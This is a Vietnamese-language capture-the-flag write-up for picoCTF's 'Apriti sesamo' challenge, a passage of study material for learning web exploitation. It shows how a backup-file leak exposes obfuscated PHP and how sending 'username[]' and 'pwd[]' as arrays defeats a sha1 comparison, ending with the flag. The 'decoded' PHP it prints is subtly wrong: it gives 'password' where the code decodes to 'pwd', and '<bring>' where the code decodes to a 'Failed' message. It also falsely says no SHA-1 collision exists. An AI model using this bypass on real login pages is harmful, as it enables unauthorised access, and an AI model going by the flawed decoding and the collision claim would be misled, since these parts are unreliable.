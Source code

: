 # Apriti sesamo

Web, 100 points

## Description:

> I found a web app that claims to be impossible to hack!

## Hint:

> 1.  Backup files
> 2.  TRumor has it, the lead developer is a militant emacs user

## Solution:

Nhìn vào hint là backup files ta có thể đoán được là có đường dẫn ẩn trong trang web và để ý emacs là 1 trình soạn thảo văn bản với file khởi tạo là `~/.emacs`. Một cách khác là dùng `gobuster` để bruteforce các file ẩn của trang web(Chắc là được :) )

Ta truy cập với đường dẫn

```
http://verbal-sleep.picoctf.net:53626/impossibleLogin.php~
```

F12 lên ta sẽ thấy 1 đoạn mã php bị comment

```
<!--?php
 if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?-->
```

Format code và decode cho dễ đọc

```
<?php
if (isset($_POST["username"]) && isset($_POST["password"])) {
    $username = $_POST["username"];
    $password = $_POST["password"];

    if ($username == $password) {
        echo "<bring>";
    } else {
        if (sha1($username) === sha1($password)) {
            echo file_get_contents("../flag.txt");
        } else {
            echo "<bring>";
        }
    }
}
?>

```

Tóm lại là nó sẽ lấy username và password khi mình nhập vào và kiểm tra. Muốn lấy được flag thì username và password phải khác nhau nhưng mã băm `sha1` của cả hai phải giống nhau

Nghe như đùa, như này người ta gọi là va chạm băm và trên thế giới chưa có 2 từ nào như vậy, có thế trong tương lai sẽ có :))

Suy nghĩ 1 lúc và chatgpt các kiểu thì chỉ có thể là giá trị `null`, mà sha1 băm ra giá trị null chỉ có thể là mảng

Dùng Burp Suite gửi lên với 2 trường `username[]=1&pwd[]=2` PHP sẽ hiểu `$_POST['username']` là một mảng với phần tử đầu tiên là 1 khi nó không lọc đầu vào và như vậy ta đã có thể đăng nhập

![](../images/Apriti_sesamo.png)

```
picoCTF{w3Ll_d3sErV3d_Ch4mp_233d4a80}
```
